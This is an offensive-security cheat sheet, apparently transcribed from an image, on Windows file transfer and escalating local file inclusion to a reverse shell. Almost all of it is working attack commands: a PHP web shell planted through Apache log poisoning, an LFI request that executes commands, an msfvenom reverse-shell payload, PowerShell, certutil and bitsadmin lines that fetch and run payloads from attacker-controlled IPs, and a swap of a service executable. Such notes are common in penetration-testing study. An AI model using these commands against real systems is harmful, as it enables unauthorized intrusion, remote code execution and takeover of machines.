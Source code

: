 File Transfers

Windows:

LFI to Reverse Shell:

1. Spoil the logs 
	
Location of logs in Windows running (PHP&Apache on XAMPP)

STEP-1:
Connect to web application via NetCat
	
nc -nv <victim ip> 80
	
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
	
STEP-2: 
	
Location of apache logs in windows is
	
C:\xampp\apache\logs\access.log
	
STEP-3:
Try accessing the log file via LFI and execute the commands
	
http://url/page.php?file=C:\xampp\apche\logs\access.log&cmd=dir
	
Once remote code execution sucessfull, time for gaining shell
	
STEP-4: 
	
Make windows revershell executable using msfvenom and host it on simply python web server
	
payload: msfvenom -p windows/shell_reverse_tcp lhost="Attacker-ip" lport="443" -f exe > shell.exe

Using powershell(windows 8 and later) 
powershell.exe%20Invoke-WebRequest%20"http://192.168.119.246/rev.exe"%20-OutFile%20"C:\Users\Public\rev.exe"

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.144:80/Invoke-PowerShellTcp.ps1')

Other ways to download file:

Download Techniques:
certutil.exe

Description: Allows you to download a payload.
Example: certutil -ping [URL]
Example: certutil -urlcache -split -f [URL] [output-file]
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

bitsadmin.exe
Description: Allows you to download a payload.
Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
bitsadmin /transfer debjob /download /priority normal http://cdimage.debian.org/debian-cd/current-live/i386/iso-hybrid/debian-live-8.7.1-i386-xfce-desktop.iso D:\Users\[Username]\Downloads\debian-live-8.7.1-i386-xfce-desktop.iso

 powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://10.11.9.187/PowerUp.ps1’)”
move "C:\Program Files (x86)\IObit\Advanced SystemCare\ACSService.exe" "C:\Program files (X86)\IObit\ASCService.exe"

 C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
 
 
 
 
 
 
 
 powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.9.187:80/avscan.exe','avscan.exe')"
